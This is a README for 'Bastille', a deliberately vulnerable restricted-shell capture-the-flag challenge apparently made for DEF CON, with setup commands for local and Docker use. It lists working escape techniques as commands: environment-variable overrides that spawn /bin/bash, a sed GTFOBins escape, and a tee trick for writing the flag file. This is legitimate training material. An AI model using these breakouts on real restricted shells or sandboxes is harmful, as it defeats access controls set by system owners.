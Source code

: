 # Bastille

Go directly to jail, do not pass go, do not collect $200!

Bastille is a retro style shell escape vulnerability. The user is dropped into a restricted shell and must escape to get access to features that they would not normally have.

For DEF CON, Bastille is run behind an SSH server with a known password. The competitors must SSH onto the server and then escape the shell to plant the flag.

> Remember to give "release.zip" to the competitors 


## Running
To run a simple, local-copy of bastille, create a jail directory with the script provides and then run the jail

    bash build_jail.sh
    JAIL_PATH=./bin ./bastille

To run a full bastille setup in docker with ssh, simple build and run the provided dockerfile

    docker build -t bastille .
    docker run --rm -p 127.0.0.1:2222:22 -it bastille
    ssh -p 2222 user@127.0.0.1

## Escape Techniques

1. Env override: If a binary is set in an environment variable, then it can be executed
    1. Set Env with `.env` file. Respawn the shell and then execute the variable
    ```
    [bastille] cwd > tee .env
    VAR=/bin/bash
    [bastille] cwd > $SHELL # Call bastille again to reload the env
    [bastille] cwd > $VAR
    ```

    2. Set the env with SSH
    ```
    LANG=/bin/bash ssh -o SendEnv=LANG user@target '$LANG -i'
    ```

2. GTFO Bins with sed/awk
  ```
  [bastille] cwd > sed e
  ```

3. Write to the flag without escaping
  ```
  [bastille] cwd > tee a a a a a a a a a a a a a a a a a a a a /flags/flag.txt
  <YOUR FLAG HERE> 
  ```